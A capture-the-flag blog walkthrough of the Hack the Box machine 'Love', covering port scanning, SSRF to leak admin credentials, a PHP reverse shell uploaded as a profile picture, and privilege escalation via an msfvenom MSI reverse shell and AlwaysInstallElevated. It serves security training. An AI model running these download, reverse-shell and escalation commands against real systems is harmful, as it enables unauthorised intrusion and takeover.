 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
date = 2021-08-07T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/05/love.png"
slug = "hack-the-box-love"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.\n"
tags = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
title = "Hack the Box - Love"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.

As always, we kick it off with `nmap`.

Here are our results:
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, X11Probe: 
|_    Host '10.10.14.125' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-05-18T18:25:43+00:00; +32m45s from scanner time.
| tls-alpn: 
|_  http/1.1
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/18%Time=60A3FE4D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B
SF:,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h17m46s, deviation: 3h30m02s, median: 32m44s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-18T11:25:33-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-18T18:25:30
|_  start_date: N/A
```

One of the first things we see is the DNS name given as `love.htb` and `staging.love.htb`. So we'll add this to our hosts list. Next we'll head over to see what's being hosted on port 80. We see a voting system. Next we check port 5000, nothing, it's forbidden. Next up is port 5040, nothing, it just times out. We check out `love.htb` on port 443, also forbidden. Now we'll head over to see what's being hosted on `staging.love.htb`.

When we land on this virtual host, we see a file scanning service. WE even have the option to demo the software. The page is asking for a URL to scan. So we setup a `netcat` listener on our local machine and point it to that URL.

![](/images/2021/05/image-35.png)

Interesting. So, to test this further, we can create a file and see what happens when the URL is a file. We simple create a file with touch, populate it with junk data and host it. We then use the demo to read the file and get whatever it might tell us about the file.

Commands:
`touch 1.lst`
`echo 'hi' > 1.lst`
`simple` (This is an alias'd to `SimpleHTTPServer` for me)

![](/images/2021/05/love_test.gif)

So we know that it will read the contents of whatever the item we supply is. So my thought here is to let this demo read the pages that were forbidden to us earlier. If the server is trying to query itself, it's likley we won't get forbidden. Port 443 didn't yield anything, however port 5000 did!

![](/images/2021/05/image-36.png)

Awesome, we have some credentials `admin`:`@LoveIsInTheAir!!!!`. Now we need to identify where we can use them. They don't work in the standard entry form. To dig a bit more we'll use `gobuster` to help enumerate more.

Command:
`gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We find an `admin` directory.

![](/images/2021/05/image-37.png)

Awesome, the credentials work on this interface! Once we're in the admin portal, we look around for additional ways to pivot. After looking around, it seems like uploading a shell as a user profile picture could be a valid method. There are many `php shells` out there, pick one you [like](https://github.com/pentestmonkey/php-reverse-shell).

![](/images/2021/05/love_shell.gif)

We setup our listen and catch a connection back immediately. We then navigate to `Phoebe`'s Desktop and snag the `user.txt` flag! Awesome, now it's time to start enumerating so we can find a path forward. We'll spin up a `SimpleHTTPServer` and transfer over `winPEAS`. A quick check shows we have `curl` on the system, we'll use that to get our file.

Command:
`curl http://10.10.14.125/winPEAS.bat -o wp.bat`

![](/images/2021/05/image-39.png)

That takes quite a while to run, but after sifting through the results, it looks like we can use `AlwaysInstallElevated` to [escalate](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path).

First we'll generate a payload via `msfvenom`.

Command:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.125 LPORT=6969 -f msi -o rootme.msi`

Once that is generated, we can host it via `SimpleHTTPServer` and download it onto the target. Once its on the system, we run the following command.

Command:
`msiexec /quiet /qn /i C:\Users\Phoebe\Downloads\rm.msi`

![](/images/2021/05/image-38.png)

We catch a shell back as `system`! Let's get the `root.txt` flag and we have completed the box!



